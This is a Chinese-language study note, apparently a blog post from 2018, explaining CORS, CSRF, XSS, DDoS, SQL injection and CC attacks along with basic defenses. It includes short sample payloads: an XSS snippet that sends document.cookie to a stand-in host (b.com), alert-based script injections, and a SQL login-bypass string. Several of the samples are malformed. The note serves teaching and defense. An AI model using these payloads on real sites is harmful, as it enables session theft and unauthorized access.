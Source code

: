 ```yaml
---
title: xss、cors、cc的攻击和防御
date: 2018-04-09 15:09:55
tags: http
---
```


## cors
- 定义
    - Cross-Origin Resource-Sharing（跨站资源共享）
    - 当一个资源从与该资源所在的服务器不同域请求资源时，会发起一个跨域http请求，如 a.com 的html( &lt;img src="cdn.com/a.png" /&gt; )向 cdn.com 请求图片等资源，网络上的许多站点都会加载来自不同域的css样式、图像、脚本等资源
    - 可指定一个origin，在许可范围内
- 同源策略
    - 浏览器限制从脚本发出的跨域http请求，ajax遵循同源策略
    - jsonp
- 使用cors进行跨域
    - 在请求头中携带origin的header
    - 服务端响应头添加 Access-Control-Allow-Origin || Access-Control-Allow-Methods ，来返回验证结果
- csrf
    - Cross-Site Request Forgery（跨站请求伪造）
    - 用户通过浏览器正常访问站点A，通过A的身份认证A站点，A产生所使用的cookie等验证信息
    - 此时A保持登录状态，另起一个窗口打开B站点，站点B接收到用户请求后，返回一些攻击代码请求A的资源
    - 浏览器执行恶意代码，在用户不知情情况下携带cookie等用户验证信息，向A发起请求，导致来自B的恶意代码被执行
    - 代码
    ```JavaScript
        <script>
            var a = `a.com/a.php?user="hhj"&pwd="j"`;
            var b = `b.com`;
        </script> 
    ```
    - 防御
        - 重要数据交互采用post进行接受
        - 使用验证码
        - 验证Http Referer字段，即此次Http请求的来源地址
        - 为每个表单添加Token并验证

## xss
- Cross-Site Scripting（跨站脚本攻击），防止与css一样，用xss；指攻击者在页面里插入而已script代码，当用户浏览页面时，嵌入其中的恶意代码会被执行
- 攻击方式
    - 发出请求时，xss代码出现在url中，作为输出会被提交并解析后响应，最后返回给浏览器，浏览器解析执行xss代码
    ```JavaScript
        <script>
            var url = `a.com?send="<script>alert('xss test')<script>"`; // 里面的xss test会被执行
            var url = `a.com?send="<script type='text/script' src='src/xss.js'><script>"`; // 执行这段js
        </script>
    ```
    - 表单存到数据库的时候，攻击者会将恶意代码保存至数据库，后面客户端执行至这段代码会被恶意执行
    ```html
        <input type="text" value="<script>alert('xss test')</script>" /> 
        <!-- 保存至数据库，后面从数据库拉去数据在页面执行的时候，会恶意执行 -->
        <input type="text" value="<div>破坏布局，伪造页面效果</div>" /> 
        <input type="text" value="#123" />
        <!-- php中的#会被当成注释、如其他里面可以试试// || /**/ -->
        <sctipt>
            var s = document.cookie, h = document.createElement('a');
            h.href = "b.com?"+ s;
            h.innerHtml = '<img src="../xss.png">';
            document.body.appendChild(h);
        </script>
    ```
- 防御
    - “所有的输入都是有害的”：对输入数据进行过滤
        - 对数据进行html encode处理
        - 对一些特殊符号进行转义，例如 < script>、< iframe>、&lt < 、&gt >
        - 过滤js事件的标签，例如onclick、onfoucus
    - 将重要的cookie标记为http only，这样页面上js的document.cookie语气就不能获取到cookie
    - 对数据
    - 服务器段对输入的数据进行xss clean处理

## ddos
- distributed Denial Of Service（分布式拒绝服务攻击）
- 通过大量合法请求占用大量资源，以达到瘫痪网络的目的。
    - 通过向服务器提交大量请求，使服务器超负荷
    - 阻断某服务与特定系统或个人的通讯
    - ip欺骗是一种黑客通过像服务器发送虚假包以欺骗服务器的做法，服务器接收到包便会返回接受请求包，但实际上这个包是虚假的包无法返回到来源处，这就造成了浪费服务器的资源
    - 攻击请求包中的源地址和目标地址，导致被攻击的机器死循环，最终耗尽资源而死机
- 被攻击现象（百度百科）
    - 被攻击主机上有大量等待的Tcp连接
    - 网络中存在大量的无用数据包
    - 源地址为假，制造高流量无用数据，造成网络拥堵，使得受害主机无法正常和外界通讯
- 防御
    - 关闭没必要的服务
    - 黑名单机制
    - 加大服务量

## sql注入
- 通过把sql命令插入到web表单提交、输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的sql命令
- 注入方法
    - 猜测表名、列名
        ```Sql
            And (Select (col列名) from tb_sql表名) ... // 不知道
        ```
    - 后台身份验证绕过漏洞
    ```Sql
        Select * from t_sql Where user=''or 'a'='a' And passwd=''or 'a'='a'
    ```
- 防御
    - 检查输入：确定输入字符类型、加密处理
    - 数据库安全：修改密码什么的，对系统注意分配权限

## cc攻击
- Challenge Collapsar（挑战黑洞），利用不断对网站发送请求致使形成拒绝服务的目的

## 参考链接
- [cors.csrf](https://yq.aliyun.com/articles/69313)
- [xss](https://www.cnblogs.com/phpstudy2015-6/p/6767032.html#_label3)
- [ddos](https://baike.baidu.com/item/%E5%88%86%E5%B8%83%E5%BC%8F%E6%8B%92%E7%BB%9D%E6%9C%8D%E5%8A%A1%E6%94%BB%E5%87%BB)
- [sql注入](https://baike.baidu.com/item/sql%E6%B3%A8%E5%85%A5)